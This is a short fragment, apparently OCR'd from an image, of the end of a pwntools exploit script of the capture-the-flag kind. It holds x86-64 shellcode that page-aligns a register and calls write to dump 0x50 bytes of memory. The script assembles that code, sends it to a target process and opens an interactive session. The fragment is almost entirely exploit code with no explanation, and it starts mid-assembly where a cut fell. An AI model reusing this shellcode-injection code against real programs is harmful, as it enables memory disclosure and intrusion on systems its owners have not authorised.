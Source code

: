```python

cmp rax, 0

jl Loop1

and rsi, 0xfffffffffffff000

add rsi, 0x120

mov rdx, 0x50

mov rax, 1

syscall

"""

shellcode = asm(shellcode,arch = "amd64")

p.sendline(shellcode)

p.interactive()
```